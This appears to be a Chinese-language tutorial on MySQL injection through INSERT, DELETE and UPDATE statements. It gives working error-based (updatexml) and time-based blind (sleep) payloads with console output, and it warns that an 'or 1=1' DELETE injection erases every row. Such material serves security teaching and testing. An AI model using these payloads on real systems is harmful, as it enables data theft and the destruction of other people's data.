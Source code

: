 # 0x00 简介

insert,delete,update 主要是用到盲注和报错注入,此类注入点不建议使用sqlmap等工具,会造成大量垃圾数据，和其他情况。



# 0x01 insert,delete,update


#### insert

可以看到假如没闭合是会产生很多垃圾数据的，所以这类注入建议手工或者自己写工具。

一般这种注入会出现在 注册、ip头、留言板等等需要写入数据的地方,同时这种注入不报错一般较难发现。

1. 报错

```
mysql> insert into admin (id,username,password) values (2,"or updatexml(1,concat(0x7e,(version())),0) or","admin");
Query OK, 1 row affected (0.00 sec)

mysql> select * from admin;
+------+-----------------------------------------------+----------+
| id   | username                                      | password |
+------+-----------------------------------------------+----------+
|    1 | admin                                         | admin    |
|    1 | and 1=1                                       | admin    |
|    2 | or updatexml(1,concat(0x7e,(version())),0) or | admin    |
+------+-----------------------------------------------+----------+
3 rows in set (0.00 sec)

mysql> insert into admin (id,username,password) values (2,""or updatexml(1,concat(0x7e,(version())),0) or"","admin");
ERROR 1105 (HY000): XPATH syntax error: '~5.5.53'

```

2. 盲注

int型 可以使用 运算符 比如 加减乘除 and or 异或 移位等等

```
mysql> insert into admin values (2+if((substr((select user()),1,1)='r'),sleep(5),1),'1',"admin");
Query OK, 1 row affected (5.00 sec)

mysql> insert into admin values (2+if((substr((select user()),1,1)='p'),sleep(5),1),'1',"admin");
Query OK, 1 row affected (0.00 sec)

```

字符型注意闭合不能使用and

```
mysql> insert into admin values (2,''+if((substr((select user()),1,1)='p'),sleep(5),1)+'',"admin");
Query OK, 1 row affected (0.00 sec)

mysql> insert into admin values (2,''+if((substr((select user()),1,1)='r'),sleep(5),1)+'',"admin");
Query OK, 1 row affected (5.01 sec)

```


注意盲注产生大量垃圾数据。


#### delete

报错注入同上

值得注意的时delete 注入很危险，很危险，很危险。

语句不当 将会亲人泪两行 `or 1=1` 因为 1=1 为true 所以每一行被删除了, 他以前用sqlmap一把梭 现在过的很好，每顿都有人送饭到手上。

所以在 delete注入时使用 or 一定要为false

```
mysql> delete from admin where id =3 or 1=1;
Query OK, 4 rows affected (0.00 sec)

```

报错注入

```
mysql> delete from admin where id =-2 or updatexml(1,concat(0x7e,(version())),0);
ERROR 1105 (HY000): XPATH syntax error: '~5.5.53'



```

盲注

or 配上 `if()` 函数使用不当 再提下 if(expr1,expr2,expr3)，如果expr1的值为true，返回expr2的值，如果expr1的值为false，
返回expr3的值。

```
mysql> delete from admin where id =-2 or if((substr((select user()),1,1)='r4'),sleep(5),1);
Query OK, 3 rows affected (0.00 sec)

```

所以 delete中 or 的正确使用方法 (or 右边要为false)

```
mysql> delete from admin where id =-2 or if((substr((select user()),1,1)='r4'),sleep(5),0);
Query OK, 0 rows affected (0.00 sec)

mysql> delete from admin where id =-2 or if((substr((select user()),1,1)='r'),sleep(5),0);
Query OK, 0 rows affected (5.00 sec)

```


#### update

与上面的类似

```
mysql> select * from admin;
+------+----------+----------+
| id   | username | password |
+------+----------+----------+
|    2 | 1        | admin    |
|    2 | 1        | admin    |
|    2 | 1        | admin    |
|    2 | admin    | admin    |
+------+----------+----------+
4 rows in set (0.00 sec)

mysql> update admin set id="5"+sleep(5)+"" where id=2;
Query OK, 4 rows affected (20.00 sec)
Rows matched: 4  Changed: 4  Warnings: 0
```


# 0x02 文末

update，insert注入怎么找，我们可以尝试性插入、引号、双引号、转义符\ 让语句不能正常执行，然后如果插入失败，更新失败，然后深入测试确定是否存在注入


#### 本文如有错误，请及时提醒，避免误导他人 

* author：404